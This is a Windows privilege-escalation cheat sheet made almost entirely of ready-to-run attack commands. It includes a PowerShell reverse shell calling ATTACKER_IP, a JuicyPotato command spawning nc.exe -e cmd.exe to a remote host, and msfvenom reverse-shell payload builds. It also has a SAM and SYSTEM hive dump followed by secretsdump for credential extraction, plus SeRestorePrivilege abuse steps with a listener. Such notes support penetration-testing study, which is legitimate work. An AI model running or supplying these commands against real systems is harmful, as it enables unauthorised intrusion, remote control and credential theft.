 # Windows Privilege Escalation - Cheat Sheet

{% hint style="warning" %}
Check if target si 32 or 64-bit with systeminfo -> System type

Reverse shell for 32bit is:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -a x86 --platform Windows -f exe -o shell.exe
```
{% endhint %}

### 1. System Information

```powershell
systeminfo                      # System info
wmic os get caption,version     # OS version
whoami                          # Current user
whoami /priv                    # Privileges of current user
whoami /groups                  # Group memberships
net users                       # List all users
net user <username>             # User details
net localgroup administrators   # Check admin group members
tasklist /v                     # Running processes
tasklist /svc                   # Processes with services
```

### 2. Searching for Sensitive Files

```powershell
dir /s /b *password* 2>nul       # Find files containing "password"
findstr /si password *.txt       # Search for passwords in text files
dir C:\Users /s /b | findstr /i "password"  # Search for password files in user directories
```

### 3. Permissions and User Privileges

```powershell
net share                       # Shared folders
net user <user>                 # User details
icacls C:\path\to\file        # Check file permissions
```

### 4. Scheduled Tasks & Services

```powershell
schtasks /query /fo LIST /v     # List scheduled tasks
Get-ScheduledTask | fl          # PowerShell alternative
sc query                        # List services
sc qc <service>                 # Check service config
```

### 5. Network & Firewall

```powershell
ipconfig /all                   # Network configuration
netstat -ano                    # Open network connections
route print                      # Routing table
Get-NetFirewallRule              # Firewall rules (PowerShell)
```

### 6. Logs & Event Viewer

```powershell
wevtutil qe Security /c:10 /f:text /rd:true  # Last 10 security logs
Get-EventLog -LogName Security -Newest 10   # PowerShell alternative
```

### 7. Common Service Paths & Registry Keys

```powershell
C:\ProgramData\
C:\Users\Public\
C:\Windows\System32\Tasks\
C:\Windows\System32\config\
C:\Windows\System32\drivers\etc\
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
```

### 8. Reverse Shells

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',ATTACKER_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

#SeImpersonatePrivilege -> 32bit
juicypotato32.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c c:\Temp\nc.exe -e cmd.exe <IP> <PORT>" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

### 9. Exploitation & Enumeration Tools

reverse shell ->

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.45.207 -f exe -o shell.exe
```

winpeas ->

```powershell
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250301-c97fb02a/winPEASany.exe -OutFile winPEASany.exe
.\winPEASany.exe  # Run WinPEAS
```

### 10. PRIVILEGES Exploitation, quick and easy

<details>

<summary>SeBackupPrivilege</summary>

Let's say we got some sort of evil winrm session on our target:

```
mkdir C:\Temp
cd C:\Temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
download "C:/Temp/system.hive"
download "C:/Temp/sam.hive"
```

and on our attackbox:

```
secretsdump -sam sam.hive -system system.hive LOCAL
```

</details>

<details>

<summary>SeRestorePrivilege</summary>

We start off by making a malicious exe:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR tun0 IP> LPORT=80 -f exe -o reverse.exe
```

Then we downlaod SeRestoreAbuse.exe:

```
https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe?source=post_page-----158516460860---------------------------------------
```

after we set up our listener:

```
rlwrap nc -nlvp 80
```

and launch our command:

```
.\SeRestoreAbuse.exe reverse.exe
```

</details>

